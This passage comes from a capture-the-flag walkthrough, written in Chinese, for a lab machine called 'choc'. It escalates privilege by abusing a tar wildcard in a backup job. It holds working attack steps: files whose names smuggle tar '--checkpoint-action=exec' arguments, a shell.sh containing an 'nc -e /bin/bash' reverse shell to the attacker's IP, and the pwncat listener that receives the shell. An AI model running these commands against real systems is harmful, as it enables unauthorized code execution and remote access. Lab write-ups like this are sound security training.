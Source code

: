 ```bash
total 6988
drwxrwxrwt  8 root  root     4096 Dec 22 06:45 .
drwxr-xr-x 19 root  root     4096 Apr 18  2021 ..
-rw-r--r--  1 torki torki 3082240 Dec 22 06:45 backup_home.tgz
```

把他传下来解压看一下
```bash
carl@choc:/tmp$ tar -xvf backup_home.tgz
diary.txt
pspy64

carl@choc:/tmp$ cat diary.txt


April 18th 2021
Last night I dreamed that I was at the beach with scarlett johansson, worst wake up call of my life!

September 12th 2309
I invented a time machine.The world is still crazy, territorial and proud !!

A day in -4.5000000000
The human doesn't exist yet and that's fucking great!!! but I'm a little bored...

```
> 发现就是 `torki/secret_garden/diary.txt` 的内容
> 这里我解压出来还有一个pspy64的原因是 我把pspy64下到了 `torki/secret_garden/` 这个目录，他这个脚本应该就是打包 `torki/secret_garden/` 目录下的所有文件

我们对 `/secret_garden/` 是有写入权限的

### 3.1. tar漏洞提权
https://book.hacktricks.xyz/zh/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar
在 `/secret_garden/ ` 目录下执行命令
```bash
carl@choc:/home/torki/secret_garden$ touch -- '--checkpoint=1'
carl@choc:/home/torki/secret_garden$ touch -- '--checkpoint-action=exec=sh shell.sh'
carl@choc:/home/torki/secret_garden$ echo 'nc -e /bin/bash 192.168.56.6 1234' >shell.sh

(remote) torki@choc:/home/torki/secret_garden$ ls
'--checkpoint=1'  '--checkpoint-action=exec=sh shell.sh'   diary.txt   pspy64   shell.sh

```
> 这里touch 要加 `--` 的原因是 让后面的 `''` 作为文件名,不然这个单引号会被去掉

然后开启监听等待反弹shell

```bash

┌──(root㉿kali)-[~]
└─# pwncat-cs -lp 1234

[01:07:00] Welcome to pwncat 🐈!                                                        __main__.py:164
[01:08:47] received connection from 192.168.56.15:44978                                      bind.py:84
[01:08:47] 0.0.0.0:1234: normalizing shell path                                          manager.py:957
[01:08:48] 192.168.56.15:44978: registered new host w/ db                                manager.py:957
(local) pwncat$
(remote) torki@choc:/home/torki/secret_garden$ whoami
torki
(remote) torki@choc:/home/torki/secret_garden$ id
```